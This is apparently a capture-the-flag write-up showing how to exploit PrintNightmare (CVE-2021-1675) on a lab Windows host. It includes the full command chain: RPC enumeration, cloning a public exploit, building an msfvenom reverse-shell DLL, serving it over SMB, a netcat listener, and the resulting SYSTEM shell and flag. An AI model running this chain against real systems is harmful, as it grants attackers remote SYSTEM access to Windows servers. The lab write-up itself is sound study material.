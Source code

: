 

![](Pasted%20image%2020210809231954.png)

If you don't live under a rock and follow cyber security news even slightly, you'd be aware that a new RCE vulnerability for Windows Printer Spooler service was released recently. The vulnerability dubbed PrintNightmare has gathered a lot of attention and for the right reasons... Its pretty epic!

The name of the challenge hints at it being about this vulnerability and the note gives it away (especially if you solved the previous challenge using PrintNightmare ;) ):
> Note 2: this vulnerability was also present in the Scorching challenge (which has been patched as of phase 3).

We're given credentials to begin with `Space:Inv4d3r` which means most of the work is already done for us. Now we only need to run the exploit.

We can check if MS-PAR and MS-RPRN system calls are exposed using `rpcdump.py` (yet another tool from impacket). Either of these may be used to exploit this vulnerability:
```
% rpcdump.py "Space:Inv4d3r@10.6.0.2" | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

We can see that both are available so this host is potentially vulnerable.

There are a lot of exploits available on github, however I've found that this guy's exploit is one of the more reliable: https://github.com/cube0x0/CVE-2021-1675

You need to install his impacket implementation in order to run this exploit. However, if you're like me and don't want to mess up your impacket installation, you can simply run everything in a virtual environment so that you don't overwrite your impacket install.

We setup a virtual environment using `pipenv` and install the custom impacket code:
```
% pipenv shell
% git clone https://github.com/cube0x0/impacket
% cd impacket
% pip install .

# if you're having issues with pip hanging, try running pip with -v and if its related to HTTPS, disabled ipv6 (ref: https://stackoverflow.com/a/64605497)
```

Clone the actual exploit now:
```
git clone https://github.com/cube0x0/CVE-2021-1675
```

You should now have the python exploit:
```
% ls
CVE-2021-1675.py  Images  README.md  SharpPrintNightmare
```

Create a directory which will be your exposed share, in this case I've called it "myshare":
```
% mkdir myshare
```

Create a reverse shell dll using msfvenom and put it in your "myshare" directory. My IP is 10.6.0.100 and I'll be listening on port 80:
```
(asdf-I4AHjtDI) (main) % msfvenom  -f dll -p windows/x64/shell_reverse_tcp LHOST=10.6.0.100 LPORT=80 -o reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
Saved as: reverse.dll
(asdf-I4AHjtDI) (main)⚡ % mv reverse.dll myshare   
```

At this point, we can start the smbserver in a separate terminal window and serve the "myshare" folder as a share named "myshare":
```
% sudo smbserver.py myshare myshare
[sudo] password for lo:
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

In another window, we start our netcat listener:
```
% sudo nc -lvnp 80                                                                  [sudo] password for lo:
listening on [any] 80 ...

```

And finally, in the virtual environment we can run the exploit:
```
% python3 CVE-2021-1675.py Space:Inv4d3r@10.6.0.2 '\\10.6.0.100\myshare\reverse.dll'        
[*] Connecting to ncacn_np:10.6.0.2[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_3138b2c823dd1ea9\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.6.0.100\myshare\reverse.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...

```

It might take a few tries for the exploit to work, however it should trigger and you get a reverse shell back.

In the end, your setup might look similar to this:
![](Pasted%20image%2020210809235643.png)

And you have a shell as system:
```
% sudo nc -lvnp 80
[sudo] password for lo:
listening on [any] 80 ...
connect to [10.6.0.100] from (UNKNOWN) [10.6.0.2] 52907
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>hostname
hostname
DC1

```

The flag is locate in `C:\`:
```
C:\>cd /
cd /

C:\>ls
ls
$Recycle.Bin
BOOTNXT
Documents and Settings
PerfLogs
Program Files
Program Files (x86)
ProgramData
System Volume Information
TheFlag.txt
Users
Windows
bootmgr
pagefile.sys

C:\>type TheFlag.txt
type TheFlag.txt
CTF{55a7160186a60b662b37c9c07c709e18}
```
